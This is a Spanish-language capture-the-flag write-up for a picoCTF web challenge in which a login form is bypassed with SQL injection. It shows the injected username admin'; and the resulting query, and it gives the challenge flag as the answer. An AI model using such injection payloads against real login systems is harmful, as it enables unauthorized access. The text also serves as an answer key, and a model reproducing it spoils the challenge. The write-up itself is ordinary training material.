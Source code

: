 Puntos: 350pts
# Objetivo del Nivel

There is a website running at `https://jupiter.challenges.picoctf.org/problem/53751/` ([link](https://jupiter.challenges.picoctf.org/problem/53751/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:53751

# Pistas del Nivel

- The password is being filtered.
# Solución/Resultado/Flag

```html
|   |   |
|---|---|
||<pre>username: admin';|
||password: hola|
||SQL query: SELECT * FROM users WHERE name='admin';' AND password='hola'|
||</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{m0R3_SQL_plz_c34df170}</p>|
```

picoCTF{m0R3_SQL_plz_c34df170}
# Notas Adicionales
# Referencias

https://play.picoctf.org/practice/challenge/80